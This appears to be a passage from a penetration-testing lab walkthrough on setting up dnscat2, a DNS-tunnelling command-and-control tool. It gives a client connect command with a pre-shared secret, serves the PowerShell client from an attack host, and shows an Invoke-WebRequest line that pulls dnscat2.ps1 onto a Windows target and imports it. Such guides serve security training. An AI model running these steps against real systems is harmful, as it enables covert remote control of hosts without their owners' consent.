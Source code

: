 ```
To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

**Important:** Note the **pre-shared secret** - `0ec04a91cd1e963f8c03ca499d589d21`

---

## **4. Dnscat2 PowerShell Client**

### **PowerShell Client Setup**

#### **Clone PowerShell Client**
```bash
# On attack host, clone PowerShell version
git clone https://github.com/lukebaggett/dnscat2-powershell.git

# Transfer to target Windows host
# Methods: SCP, HTTP download, file share, etc.
```

#### **Client File Transfer**
```bash
# Example transfer methods:

# 1. Python HTTP server on attack host
cd dnscat2-powershell/
python3 -m http.server 8000

# 2. SCP to intermediate host
scp dnscat2.ps1 user@target:/temp/

# 3. PowerShell download from target
# (Run on Windows target):
Invoke-WebRequest -Uri "http://10.10.14.18:8000/dnscat2.ps1" -OutFile "dnscat2.ps1"
```

### **Client Execution on Target**

#### **Import PowerShell Module**
```powershell
# Import dnscat2 PowerShell module
Import-Module .\dnscat2.ps1

# Verify module loaded
Get-Module dnscat2
```
